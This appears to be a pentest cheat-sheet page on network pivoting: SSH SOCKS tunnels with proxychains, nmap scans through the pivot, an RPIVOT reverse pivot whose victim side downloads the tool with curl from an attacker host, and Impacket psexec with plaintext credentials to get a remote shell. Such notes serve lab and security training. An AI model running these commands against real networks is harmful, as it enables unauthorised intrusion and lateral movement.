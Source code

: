 - **Creating the SSH Tunnel**:
  Create a dynamic SOCKS proxy on local port 9050 that relays traffic through the `privilege@192.168.80.10` machine.
  ```bash
  ssh -D 9050 privilege@192.168.80.10
  ```

- **Using ProxyChains**:
  In a new terminal, prefix commands with `proxychains` to route them through the tunnel.
  ```bash
  # A simple ping through proxychains may fail as ICMP is not proxied by default.
  proxychains ping 192.168.98.30

  # Test connectivity on a specific port (e.g., 445/SMB).
  proxychains nc 192.168.98.30 445

  # Scan the target's ports through the tunnel.
  proxychains nmap -sT 192.168.98.30
  ```

### RPIVOT Pivoting

RPIVOT is a reverse pivot tool, useful when the compromised machine cannot be reached directly from the attacker's network.

- **Setting up the RPIVOT Server (Attacker)**:
  The server listens for incoming client connections and relays traffic through a local proxy (like our SSH tunnel).
  ```bash
  python2 server.py --server-port 9980 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9050
  ```

- **Running the RPIVOT Client (Victim)**:
  The client connects to the attacker's server.
  ```bash
  curl http://10.10.200.2/rpivot.zip
  python /rpivot/client.py --server-ip 10.10.200.2 --server-port 9980
  ```

- **Scanning through the RPIVOT Pivot**:
  Use `proxychains` to scan the internal network through the new route.
  ```bash
  proxychains nmap -sn 192.168.98.30
  proxychains nmap -sT 192.168.98.30
  ```

### Internal Access and Post-Exploitation

Once the pivot is established, these commands allow interaction with the internal network.

- **Using Impacket Tools**:
  Impacket is a collection of Python scripts for working with network protocols.
  ```bash
  # Activate the Python virtual environment
  source ~/.venv/bin/activate
  python3 -m pip install impacket

  # Use psexec.py to get a shell via SMB
  proxychains psexec.py 'child/john:passjohn@192.168.98.30'
  ```
